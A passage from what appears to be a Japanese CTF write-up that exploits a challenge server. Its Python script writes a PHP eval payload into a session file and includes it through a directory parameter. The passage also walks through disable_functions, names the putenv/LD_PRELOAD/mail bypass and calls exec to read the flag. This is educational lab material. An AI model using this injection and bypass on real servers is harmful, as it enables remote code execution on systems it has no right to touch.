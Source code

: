Apache の DocumentRoot が `/var/www/php` ですから、`/var/www/(サービス名)` のようなディレクトリに置かれるはずです。いろいろ試していると、`/var/www/nod_nod` で当たりでした。

```python
import requests
import urllib.parse

BASE = 'http://(省略)/'
PAYLOAD = 'phpinfo();'

sess = requests.Session()
sess.get(BASE + 'auth?passcode=Sup3r-P4ss-C0de')
sess.get(BASE + '<%3fphp%20eval($_GET[0]);%20%3f>')

sessid = urllib.parse.unquote(sess.cookies['connect.sid'])
sessid = sessid[2:].split('.')[0]

print(BASE + f'tunnel?dir=/var/www/nod_nod/sessions/{sessid}.json%260={PAYLOAD}')
req = sess.get(BASE + f'tunnel?dir=/var/www/nod_nod/sessions/{sessid}.json%260={PAYLOAD}')
print(req.text)
```

これで `phpinfo();` を実行させることができました。

### disable_functions バイパス?
さて、あとは問題文に従って `/flag` を実行させれば終わりのはずですが、`passthru('/flag');` のようなコードを実行させても何も表示されません。

`phpinfo()` の `disable_functions` を見てみると、以下の関数が無効にされていることがわかりました。

```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,shell_exec,system,passthru,popen,stream_select,putenv,mail
```

なるほど、`passthru` や `system` などの OS コマンドを実行できる関数に加えて、`putenv` + `mail` (共有ライブラリをアップロード → `putenv` で `LD_PRELOAD=./a.so` → `mail` のコンボ) のような有名な `disable_functions` バイパスも防がれています。

が、よく見ると `exec` は無効化されていません。実行するコードを `var_dump(exec("/flag"));` に変えるとフラグが得られました。

```
ijctf{Cool,,The_best_1s_0nly_use_nodejs_or_PhP}
```

## [Misc 10] Welcome (57 solves)
> Author dont wanna give flag easily even its a welcome challenge, You can DM @welcome bot to get the flag but problem is he used different language(lowercase) to get the flag
> 
> Author: warlock_rootx
> 
> Hint 1: use !help  
> Hint 2: u know how to get the flag, use google transulater  
> Hint 3: dont sent emoji,its a diff language but input is english characters(a-z) only  
> Hint 4: ex. !flag [different language text]
